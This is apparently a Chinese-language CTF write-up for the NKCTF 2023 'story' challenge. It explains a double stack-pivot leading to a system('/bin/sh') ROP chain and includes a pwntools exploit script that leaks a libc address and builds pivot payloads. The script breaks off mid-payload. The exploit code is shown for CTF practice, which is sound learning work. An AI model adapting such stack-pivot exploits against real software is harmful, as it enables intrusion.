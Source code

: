 ```yaml
---
title: NKCTF23
date: 2023-04-13 16:15:00 +0800
categories: [CTF, Exercise]
tags: [NKCTF]     # TAG names should always be lowercase
---
```


读研之后第一次组队打比赛，稍微记录下

# story

栈溢出太少了，栈迁移到可写的地方在附近再溢出一下继续栈迁移腾个地方

为什么不一次迁移到位呢，因为没有现成的能作为ret地址的单元，得先迁移一次写个地址，再往上迁移更多

可控制内存够了之后直接写binsh字符串->pop rdi;ret->binsh字符串地址->system地址

[story](/assets/binary/2023-04-13-NKCTF23/story.zip)

```python
from pwn import *

libc = ELF('./libc.so.6')
elf = ELF('./pwn')


context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

def solve(handle):
    binsh_addr = 0x4050a8
    handle.recvuntil("> \n")
    handle.sendline('4')
    handle.recvuntil("can see this. ")
    puts_addr = int(handle.recvline(), 16)
    print(hex(puts_addr))
    libc.address = puts_addr - libc.symbols['puts']
    system_addr = 0xe3b04 + libc.address
    leave_ret = 0x40139e

    # 1
    handle.recvuntil("> ")
    handle.sendline('1')
    handle.recvuntil("what's your comment?")
    handle.send(p64(leave_ret)) # go to main

    # 0
    handle.recvuntil("> ")
    handle.sendline('2')
    handle.recvuntil("what's your corment?")
    handle.send(p64(elf.symbols['heart']))

    # 2
    handle.recvuntil("> ")
    handle.sendline('3')
    handle.recvuntil("what's your corMenT?")
    handle.send(p64(libc.symbols['system']))

    
    pop_rdi_ret = 0x401573
    payload = b'a'*0xa + p64(0x4050a0-0x8) + p64(leave_ret) + p64(elf.symbols['heart']) # pivot stack to first place, make room for next pivot
```